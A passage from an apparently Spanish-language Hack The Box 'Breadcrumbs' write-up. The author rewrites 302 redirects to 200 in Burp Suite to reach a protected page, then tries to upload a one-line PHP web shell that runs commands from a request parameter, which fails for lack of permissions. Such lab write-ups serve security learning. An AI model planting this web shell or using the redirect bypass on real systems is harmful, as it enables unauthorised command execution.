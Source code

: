 <img src="/writeups/assets/img/Breadcrumbs-htb/24.png" alt="">

Para automitar el que no aplique el redirect, desde las opciones de BurpSuite, en Match and Replace, indico que cambie la cabecera del código de estado 302 por un 200

<img src="/writeups/assets/img/Breadcrumbs-htb/25.png" alt="">

Pruebo a subir un archivo en PHP que me permita ejecutar comandos

```null
<?php
  system($_REQUEST['cmd']);
?>
```

Pero no tengo suficientes permisos

<img src="/writeups/assets/img/Breadcrumbs-htb/26.png" alt="">

